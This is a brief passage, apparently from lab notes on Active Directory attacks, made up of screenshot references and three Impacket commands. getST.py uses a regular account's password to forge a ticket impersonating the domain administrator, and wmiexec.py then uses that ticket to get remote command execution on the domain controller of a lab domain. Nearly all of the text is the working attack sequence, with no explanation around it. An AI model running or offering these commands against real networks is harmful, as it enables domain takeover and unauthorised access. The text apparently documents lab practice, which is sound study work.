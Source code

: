 <img src="image/image-20231010175029335.png" alt="image-20231010175029335" style="zoom:67%;" />

```sh
getST.py -dc-ip 192.168.1.250 -spn krbtgt -impersonate administrator y5neko.com/ziyuanyueshu:ziyuanyueshu@123
export KRB5CCNAME=administrator.ccache
wmiexec.py -dc-ip 192.168.1.250 -no-pass -k administrator@dc.y5neko.com
```

<img src="image/image-20231011160140642.png" alt="image-20231011160140642" style="zoom: 80%;" />

<img src="image/image-20231011160443492.png" alt="image-20231011160443492" style="zoom:80%;" />
